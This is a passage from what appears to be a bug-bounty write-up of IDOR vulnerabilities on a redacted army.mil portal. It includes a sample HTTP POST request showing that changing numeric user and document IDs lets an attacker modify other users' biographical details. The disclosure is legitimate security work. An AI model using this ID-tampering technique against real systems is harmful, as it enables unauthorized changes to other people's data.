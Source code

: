 - Yeah, so now it was pretty much very simple to change your user-id to someone else user-id.

<img src="/assets/logos/idor1.png" alt="ssrf" width="1000" height="auto">


### [2 - IDOR leads to modify any user Biographical Details](https://hackerone.com/reports/2586662)
- On the same endpoint (as above), there is a feature to update your biographical details. It was also based on numeric user IDs. so yes it also became very easy for me to exploit it.

##### Vulnerable Request

```r
POST /JOINOnline/Board/SubmitDoc HTTP/1.1
Host: www.█████.army.mil
Cookie: {YOUR-COOKIES}
...snip...
Connection: close

------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="UserId"
268
------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="Id"
1328
------WebKitFormBoundaryrQSrSuOi1l18BB2E
...snip...
Male
------WebKitFormBoundaryrQSrSuOi1l18BB2E
Content-Disposition: form-data; name="__RequestVerificationToken"
{VERIFICATION-TOKEN}
------WebKitFormBoundaryrQSrSuOi1l18BB2E--
```

- Yeah, so it was pretty much very simple to change your Doc-id (`1328`) to someone else doc-id & change other user's details.

